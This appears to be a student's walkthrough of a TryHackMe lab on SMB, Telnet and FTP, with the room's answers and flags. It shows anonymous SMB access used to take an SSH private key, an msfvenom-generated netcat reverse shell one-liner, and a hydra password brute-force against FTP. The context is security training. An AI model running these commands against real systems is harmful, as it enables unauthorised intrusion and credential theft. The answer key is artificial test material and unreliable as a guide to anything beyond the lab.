# Network Services

## Understanding SMB

#smb

### **What is SMB?**

- SMB - Server Message Block Protocol - is a client-server communication protocol used for sharing access to files, printers, serial ports and other resources on a network. [[source](https://searchnetworking.techtarget.com/definition/Server-Message-Block-Protocol)]  

- Servers make file systems and other resources (printers, named pipes, APIs) available to clients on the network. 
- Client computers may have their own hard disks, but they also want access to the shared file systems and printers on the servers.

- The SMB protocol is known as a response-request protocol, meaning that it transmits multiple messages between the client and server to establish a connection. 
	- Clients connect to servers using TCP/IP (actually NetBIOS over TCP/IP as specified in RFC1001 and RFC1002), NetBEUI or IPX/SPX.

### **How does SMB work?**



- Once they have established a connection, clients can then send commands (SMBs) to the server that allow them to access shares, open files, read and write files, and generally do all the sort of things that you want to do with a file system. 
	- However, in the case of SMB, these things are done over the network.

### **What runs SMB?**

- Microsoft Windows operating systems since Windows 95 have included client and server SMB protocol support. 
	- Samba, an open source server that supports the SMB protocol, was released for Unix systems.

### Questions

What does SMB stand for?      

A: Server Message Block

What type of protocol is SMB?      

A: response-request

What do clients connect to servers using?      

A: TCP/IP

What systems does Samba run on?

A: unix

## Enumerating SMB

### **Enumeration**

- Enumeration is the process of gathering information on a target in order to find potential attack vectors and aid in exploitation.

- This process is essential for an attack to be successful, as wasting time with exploits that either don't work or can crash the system can be a waste of energy. 

- Enumeration can be used to gather usernames, passwords, network information, hostnames, application data, services, or any other information that may be valuable to an attacker.

### **SMB**  

- Typically, there are SMB share drives on a server that can be connected to and used to view or transfer files. 
- SMB can often be a great starting point for an attacker looking to discover sensitive information — you'd be surprised what is sometimes included on these shares.  

### **Port Scanning**

- The first step of enumeration is to conduct a port scan, to find out as much information as you can about the services, applications, structure and operating system of the target machine.  

- If you haven't already looked at port scanning, I **recommend** checking out the Nmap room [here](https://tryhackme.com/room/furthernmap).

### **Enum4Linux**
#enum4linux
- Enum4linux is a tool used to enumerate SMB shares on both Windows and Linux systems. 
	- It is basically a wrapper around the tools in the Samba package and makes it easy to quickly extract information from the target pertaining to SMB. 
- It's installed by default on Parrot and Kali, however if you need to install it, you can do so from the official [github](https://github.com/portcullislabs/enum4linux).

- The syntax of Enum4Linux is nice and simple: **"enum4linux [options] ip"**  

**TAG**            **FUNCTION**  

-U              get userlist  
-M             get machine list  
-N             get namelist dump (different from -U and-M)  
-S              get sharelist  
-P              get password policy information  
-G              get group and member list
-a             all of the above (full basic enumeration)  

### Questions
  
Conduct an **nmap** scan of your choosing, How many ports are open?  



`A: 3`

What ports is **SMB** running on?

`A: 139/445`

Let's get started with Enum4Linux, conduct a full basic enumeration. For starters, what is the **workgroup** name?      

- `enum4linux -a <ip>`



`A: WORKGROUP` 

What comes up as the **name** of the machine?          



`A: POLOSMB`

What operating system **version** is running?      

`A: 6.1`

What share sticks out as something we might want to investigate?



`A: profiles`

## Exploiting SMB

- While there are vulnerabilities such as [CVE-2017-7494](https://www.cvedetails.com/cve/CVE-2017-7494/)that can allow remote code execution by exploiting SMB, you're more likely to encounter a situation where the best way into a system is due to misconfigurations in the system. In this case, we're going to be exploiting anonymous SMB share access- a common misconfiguration that can allow us to gain information that will lead to a shell.

- So, from our enumeration stage, we know:
    - The SMB share location
    - The name of an interesting SMB share

- Because we're trying to access an SMB share, we need a client to access resources on servers. 
- We will be using SMBClient because it's part of the default samba suite. You can find the documentation [here.](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html)

- We can remotely access the SMB share using the syntax:

`smbclient //[IP]/[SHARE]`

- Followed by the tags:
	-U [name] : to specify the user
	-p [port] : to specify the port

### Questions

What would be the correct syntax to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port?

	`A: smbclient //10.10.10.2/secret -U suit -p 445`

Does the share allow anonymous access? Y/N?

- `smbclient //10.10.100.169/profiles -U Anonymous -p 445`

	`A: Y`

Great! Have a look around for any interesting documents that could contain valuable information. Who can we assume this profile folder belongs to?

- `more “Working from home information.txt”`



	`A: John Cactus`

What service has been configured to allow him to work from home?  

	`A: ssh`

Okay! Now we know this, what directory on the share should we look in?  

	`A: .ssh`

This directory contains authentication keys that allow a user to authenticate themselves on, and then access, a server. Which of these keys is most useful to us?  

	`A: id_rsa`

Download this file to your local machine, and change the permissions to "600" using "chmod 600 [file]".

Now, use the information you have already gathered to work out the username of the account. Then, use the service and key to log-in to the server.

What is the smb.txt flag?

- `mget id_rsa` to download the key on your machine
- `cd /root && chmod 600 id_rsa` on your local machine
- `mv id_rsa /root/.ssh`
- On the server: `more id_rsa.pub`



- Potential login info: `cactus@polosmb`
- Try `ssh cactus@ip`, having the private key saved on your machine



	`A: THM{smb_is_fun_eh?}`

## Understanding Telnet

- Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.  

- The telnet client will establish a connection with the server. 
	- The client will then become a virtual terminal- allowing you to interact with the remote host.

- Telnet sends all messages in clear text and has no specific security mechanisms. 
	- Thus, in many applications and services, Telnet has been replaced by SSH in most implementations.

- You can connect to a telnet server with the following syntax: `telnet [ip] [port]`

### Questions

What is Telnet?      

	`A: Application protocol`

What has slowly replaced Telnet?      

	`A: ssh`

How would you connect to a Telnet server with the IP 10.10.10.3 on port 23?  

	`A: telnet 10.10.10.3 23`

The lack of what, means that all Telnet communication is in plaintext?

	`A: encryption`

## Enumerating Telnet

### Questions

How many **ports** are open on the target machine?      

	`A: 1`

What **port** is this?  

- `nmap <ip> -p 1000-9999`

	`A: 8012`

This port is unassigned, but still lists the **protocol** it's using, what protocol is this?       

	`A: tcp`

Now re-run the **nmap** scan, without the **-p-** tag, how many ports show up as open?

	`A: 0`

Based on the title returned to us, what do we think this port could be **used for**?  

- `nmap -sV --vv -p8012 <ip> `



	`A: a backdoor`

Who could it belong to? Gathering possible **usernames** is an important step in enumeration.

	`A: Skidy`

## Exploiting Telnet

- Telnet, being a protocol, is in and of itself insecure for the reasons we talked about earlier. It lacks encryption, so sends all communication over plaintext, and for the most part has poor access control. There are CVE's for Telnet client and server systems, however, so when exploiting you can check for those on:
	- [https://www.cvedetails.com/](https://www.cvedetails.com/)
	- [https://cve.mitre.org/](https://cve.mitre.org/)

- A reverse shell is a type of shell in which the target machine communicates back to the attacking machine.

- The attacking machine has a listening port, on which it receives the connection, resulting in code or command execution being achieved.



### Questions

What welcome message do we receive?  

	A: SKIDY'S BACKDOOR

Let's try executing some commands, do we get a return on any input we enter into the telnet session? (Y/N)

	`A: N`

Let's check to see if what we're typing is being executed as a system command.

- `sudo tcpdump ip proto \\icmp -i ens5`

- This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.

Now, use the command `ping [local THM ip] -c 1` through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)

- `.RUN ping 10.10.167.137 -c 1`

	`A: Y`

- `msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`

	- `-p` = payload
	- `lhost` = our local host IP address (this is **your** machine's IP address)
	- `lport` = the port to listen on (this is the port on **your** machine)
	- `R` = export the payload in raw format  
  
What word does the generated payload start with?

- On your machine: ` msfvenom -p cmd/unix/reverse_netcat lhost=10.10.167.137 lport=4444 R`



	`A: mkfifo`

What would the command look like for the listening port we selected in our payload?

	`A: nc -lvp 4444`

Great! Now that's running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine!  

Success! What is the contents of flag.txt?

- Copy the payload from earlier where you replace the ip of the target with the ip of your machine: `mkfifo /tmp/zvnkw; nc 10.10.167.137 4444 0</tmp/zvnkw | /bin/sh >/tmp/zvnkw 2>&1; rm /tmp/zvnkw`



	`A: THM{y0u_g0t_th3_t3ln3t_fl4g}`

## Understanding FTP

- A typical FTP session operates using two channels:
	- a command (sometimes called the control) channel
	- a data channel.

- As their names imply, the command channel is used for transmitting commands as well as replies to those commands, while the data channel is used for transferring data.

- FTP operates using a client-server protocol. 
- The client initiates a connection with the server, the server validates whatever login credentials are provided and then opens the session.

- The FTP server may support either Active or Passive connections, or both. 
	- In an Active FTP connection, the client opens a port and listens. 
		- The server is required to actively connect to it. 
	- In a Passive FTP connection, the server opens a port and listens (passively) and the client connects to it. 

- This separation of command information and data into separate channels is a way of being able to send commands to the server without having to wait for the current data transfer to finish. 
	- If both channels were interlinked, you could only enter commands in between data transfers, which wouldn't be efficient for either large file transfers, or slow internet connections.

- You can find more details on the technical function, and implementation of, FTP on the Internet Engineering Task Force website: [https://www.ietf.org/rfc/rfc959.txt](https://www.ietf.org/rfc/rfc959.txt).

### Questions

What communications model does FTP use?  

	`A: client-server`

What's the standard FTP port?  

	`A: 21`

How many modes of FTP connection are there?

	`A: 2`

## Enumerating FTP 

### Questions



How many **ports** are open on the target machine?   

	`A: 2`

What **port** is ftp running on?  

	`A: 21`

What **variant** of FTP is running on it?  



	`A: vsftpd`

Great, now we know what type of FTP server we're dealing with we can check to see if we are able to login anonymously to the FTP server. We can do this using by typing "_ftp [IP]_" into the console, and entering "anonymous", and no password when prompted.

What is the name of the file in the anonymous FTP directory?  



	`A: PUBLIC_NOTICE.txt`

What do we think a possible username  
could be?

- On the FTP server: `get PUBLIC_NOTICE.txt`
- On your machine: 



	`A: Mike`

## Exploiting FTP

- Similarly to Telnet, when using FTP both the command and data channels are unencrypted. 
	- Any data sent over these channels can be intercepted and read.

- With data from FTP being sent in plaintext, if a man-in-the-middle attack took place an attacker could reveal anything sent through this protocol (such as passwords). 
	- An article written by [JSCape](https://www.jscape.com/blog/bid/91906/Countering-Packet-Sniffers-Using-Encrypted-FTP) demonstrates and explains this process using ARP-Poisoning to trick a victim into sending sensitive information to an attacker, rather than a legitimate source.
	- an avenue we can exploit is weak or default password configurations.

- **Hydra** is a very fast online password cracking tool, which can perform rapid dictionary attacks against more than 50 Protocols, including Telnet, RDP, SSH, FTP, HTTP, HTTPS, SMB, several databases and much more.

- The syntax for the command we're going to use to find the passwords is this:

**"hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp"**

Let's break it down:

| **SECTION**             | **FUNCTION**                                                                 |
|-------------------------|-------------------------------------------------------------------------------|
| `hydra`                 | Runs the hydra tool                                                          |
| `-t 4`                  | Number of parallel connections per target                                    |
| `-l [user]`             | Points to the user whose account you're trying to compromise                  |
| `-P [path to dictionary]`| Points to the file containing the list of possible passwords                 |
| `-vV`                   | Sets verbose mode to very verbose, shows the login+pass combination for each attempt |
| `[machine IP]`          | The IP address of the target machine                                         |
| `ftp / protocol`        | Sets the protocol                                                            |

### Questions

What is the password for the user "mike"?  

`hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.179.16 ftp
`



	A: password

What is ftp.txt?



	`A: THM{y0u_g0t_th3_ftp_fl4g}`
